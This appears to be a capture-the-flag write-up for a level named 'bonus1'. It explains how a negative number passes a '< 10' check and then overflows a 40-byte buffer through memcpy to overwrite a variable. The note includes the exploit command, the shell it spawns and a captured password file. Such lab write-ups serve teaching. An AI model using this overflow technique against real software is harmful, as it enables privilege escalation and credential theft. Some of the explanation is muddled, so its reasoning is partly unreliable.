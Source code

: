 # bonus1

We need to set `n` to a value `< 10`. But to run the shell, `n` needs to have the value `0x574f4c46` (`1464814662` in decimal).

In order to do this, we can use a number `< 10`, which will pass the first condition.  
Then, to set `n` to the value `0x574f4c46`, we can actually write it directly in the memory by overflowing `buffer` with `memcpy()`.

The buffer is `40` bytes long and `n` address, which is `0x574f4c46`, is right after the buffer's address.  
Because whatever `n` is, there will be `n * 4` bytes copied into the buffer, we need to find a value `n` such that `n * 4` is `40`.

```
4294967295 / 4 = 1073741823
We remove 40 bytes from this :
1073741823 - 40 = 1073741783
```

```sh
$> ./bonus1 -1073741783 $(python -c 'print("A"*40 + "\x46\x4c\x4f\x57")')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f519182524
```
